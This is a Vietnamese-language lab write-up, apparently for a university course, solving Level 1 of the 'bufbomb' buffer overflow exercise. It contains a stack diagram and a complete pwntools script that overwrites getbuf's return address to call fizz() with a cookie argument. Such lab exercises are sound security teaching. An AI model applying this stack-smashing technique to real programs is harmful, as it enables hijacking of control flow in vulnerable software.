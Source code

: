 # Level 1
## Task
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
```
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
Dud: getbuf returned 0x1
Better luck next time
```
> Buffer overflow để thực thi được hàm `fizz()`.  

## Solution
Ở level này, cách chúng ta exploit cũng tương tự như ở [level 0](https://github.com/datthinh1801/NT209.L21.ANTN.Group_1/tree/main/Lab%205/Level%200), chỉ có duy nhất 1 điểm khác biệt là hàm `fizz()` có 1 tham số truyền vào.  
```c
void __cdecl __noreturn fizz(int a1)
{
  if ( a1 == cookie )
  {
    printf("Fizz!: You called fizz(0x%x)\n", a1);
    validate(1);
  }
  else
  {
    printf("Misfire: You called fizz(0x%x)\n", a1);
  }
  exit(0);
}
```  

Bên cạnh đó, hàm `fizz()` này sẽ so sánh giá trị được truyền vào với giá `cookie` được tạo từ `username`. Nếu 2 giá trị bằng nhau thì chuỗi `Fizz!: You called fizz(_giá_trị_hexa_của_tham_số_truyền_vào_)` sẽ được in ra console, nếu không thì chuỗi `Misfire!: You called fizz(_giá_trị_hexa_của_tham_số_truyền_vào_)` sẽ được in ra console.  

Vậy bên cạnh việc overflow để thực thi được hàm `fizz()`, chúng ta còn cần phải truyền được giá trị bằng với giá trị `cookie` vào hàm `fizz()` này.  

Tiếp theo, để quyết định được payload để nhập vào chương trình, chúng ta sẽ xem stack trước khi hàm `Gets()` được thực thi.  
```
+---------------------------------+
|     return address (getbuf)     |---> return address của hàm getbuf()
+---------------------------------+
|           ebp (getbuf)          |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x28 bytes 
               .
+---------------------------------+
|              v1                 |---> top của stack
+---------------------------------+

```  
> Tương tự ở level 0, payload của chúng ta sẽ có độ dài là `0x28 + 0x4 + 0x4` với `4` bytes cuối là địa chỉ của hàm `fizz()`.

Stack khi bắt đầu thực thi hàm `fizz()`:  
```
+---------------------------------+
|           argument 1            |
+---------------------------------+
|     return address (fizz)       |---> return address của hàm fizz()
+---------------------------------+
|           ebp (fizz)            |---> đỉnh của stack
+---------------------------------+
```  

Khi hàm `fizz()` được thực thi thì giá trị của tham số thứ nhất sẽ được truy xuất qua tham chiếu `(%ebp + 8)` (như hình minh họa ở trên). Chính vì vậy, để thành công trong việc truyền giá trị vào hàm thì chúng ta cần ghi thêm `8` bytes vào payload với `4` bytes đầu để ghi đè giá trị của return address của hàm `fizz()` và `4` bytes cuối cùng chính là giá trị mà chúng ta muốn truyền vào hàm `fizz()`.

### Script
```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

# tạo process tới chương trình bufbomb
main_handler = process(['./bufbomb', '-u', '09821978'])

# tạo process tới chương trình makecookie để tạo cookie
cookie_getter = process(['./makecookie', '09821978'])
# lưu giá trị cookie
cookie = cookie_getter.recvline()[2:-1]
cookie = int(cookie, 16)
print(hex(cookie))

e = ELF('./bufbomb')

# tạo payload với (0x28 + 0x4) bytes ký tự 'A'
exploit_payload = b'A'*(0x28 + 4)
# lấy địa chỉ của hàm fizz() thêm vào payload
exploit_payload += p32(e.symbols['fizz'])
# tiếp tục chèn thêm 4 ký tự 'A' vào payload
# để ghi đè return address của hàm fizz
exploit_payload += b'A'*4
# chèn giá trị cookie vào payload
exploit_payload += p32(cookie)

print(exploit_payload)

with open('payload.txt', 'wb') as f:
    f.write(exploit_payload)

main_handler.sendline(exploit_payload)
main_handler.interactive()
```
